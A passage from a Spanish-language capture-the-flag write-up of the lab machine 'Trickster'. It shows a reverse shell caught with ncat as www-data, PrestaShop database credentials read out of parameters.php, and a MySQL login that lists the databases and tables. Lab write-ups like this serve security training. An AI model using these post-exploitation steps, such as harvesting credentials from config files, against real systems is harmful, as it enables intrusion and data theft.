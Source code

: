 ```bash
Ncat: Connection from 10.10.11.34:58996.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 23:03:31 up 20 min,  0 users,  load average: 0.01, 0.09, 0.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Revisando los diferentes archivos de configuración, nos encontramos con las credenciales de acceso a la base de datos que utiliza `PrestaShop`.

```bash
www-data@trickster:~/prestashop/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
```

## Initial Access

### Enumerating Database

Probaremos de autenticarnos al MySQL con las credenciales obtenidas, al acceder sin problemas logamos visualizar las bases de datos existentes y las tablas.

```bash
www-data@trickster:~/prestashop/app/config$ mysql -u ps_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 793
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> USE prestashop;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [prestashop]> SHOW TABLES;
+-------------------------------------------------+
| Tables_in_prestashop                            |
+-------------------------------------------------+
...[snip]...
| ps_employee                                     |
```